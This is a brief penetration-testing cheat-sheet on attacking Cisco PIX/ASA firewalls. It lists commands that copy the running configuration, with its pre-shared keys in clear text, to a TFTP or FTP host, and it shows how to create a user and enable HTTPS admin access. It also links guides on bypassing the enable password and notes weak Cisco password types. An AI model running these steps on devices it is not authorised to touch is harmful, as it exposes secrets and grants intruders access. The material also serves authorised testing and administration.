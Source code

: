 # Attacking Cisco devices

## Recover preshared keys

http://www.cisco.com/c/en/us/support/docs/security/pix-500-series-security-appliances/82076-preshared-key-recover.html

### Option 1

more system:running-config

### Option 2

Copy your configuration to a TFTP server. This is needed because once the configuration is sent to the TFTP server, the pre-shared key appears as clear text (instead of ****** , as in the show run command).

Issue this command in order to copy your configuration to a TFTP server:

```
    ASA#write net [[tftp server_ip]:[filename]]:
```

OR

```
    ASA#copy running-config tftp:
```

Once the file is saved on the TFTP server, you can open it with a text editor and view the passwords in clear text.

Example:

    pixfirewall#copy running-config tftp:
    Source filename [running-config]?
    Address or name of remote host []? 172.16.124.2

### Option 3 - ACCESS via HTTPS

In order to get the clear text of the pre-shared key, access the PIX/ASA through HTTPS.

Create a username/password to get the access of the PIX/ASA configuration.

    pix(config)#username username password password

In order to enable the security appliance HTTP server, use the http server enable command in global configuration mode. In order to disable the HTTP server, use the no form of this command.

    hostname(config)#http server enable

In order to specify hosts that can access the HTTP server internal to the security appliance, use the http command in global configuration mode. In order to remove one or more hosts, use the no form of this command. In order to remove the attribute from the configuration, use the no form of this command without arguments.

    hostname(config)#http 10.10.99.1 255.255.255.255 outside

Use the username/password to login to the PIX/ASA using the browser as this example shows.

    https://10.10.99.1/config

### Option 4 - via FTP

copy run ftp://172.16.124.2/running-config


## How To Break Into A Cisco ASA If You Do Not Have The Enable Password

* http://www.gomjabbar.com/2011/05/14/how-to-break-into-a-cisco-asa-if-you-do-not-have-the-enable-password/#sthash.AnWAI1DR.dpbs

Cisco Type 0 Password: These passwords are stored in plain text Cisco Type 5 Password: These passwords are stored as salted MD5 hash.
Requires brute-force attack to recover password Cisco Type 7 Password: These passwords are encoded using Cisco's private encryption algorithm & can be decrypted instantly.

* http://www.hope.co.nz/projects/tools/ciscopw.php

tags: #cisco_asa #cisco #pentest #ios #links 
